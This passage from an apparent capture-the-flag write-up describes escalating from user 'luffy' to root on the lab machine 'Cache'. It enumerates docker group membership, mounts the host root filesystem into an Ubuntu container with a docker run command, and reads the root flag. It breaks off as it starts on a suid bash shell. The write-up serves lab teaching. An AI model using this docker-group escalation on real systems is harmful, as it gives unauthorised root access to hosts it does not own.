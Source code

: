 ## Priv: luffy --\> root

### Enumeration

As luffy, I'll notice I'm in the `docker` group:



    luffy@cache:~$ id
    uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)



There are not containers currently running:



    luffy@cache:~$ docker ps
    CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES



There is an Ubuntu image on Cache:



    luffy@cache:~$ docker image ls
    REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
    ubuntu              latest              2ca708c1c9cc        7 months ago        64.2MB



### root Filesystem Access

Just like in
[Olympus](/htb-olympus.md#privesc-to-root-file-system-access),
being in the `docker` group is easy access to the filesystem root. I'll
just start a container, and mount the root file system into it. The
following command will start that image as a container, with the root
filesystem of Cache mounted on `/mnt` inside the container, and drop me
at a Bash shell:



    luffy@cache:~$ docker run -v /:/mnt -i -t ubuntu bash
    root@67fd1a66bece:/#



Now I can access `root.txt`:



    root@67fd1a66bece:/mnt/root# cat root.txt
    e9f560a0************************



### root Shell

There's a ton of ways to go from file system access to shell. For
example, make a suid copy of `bash`:
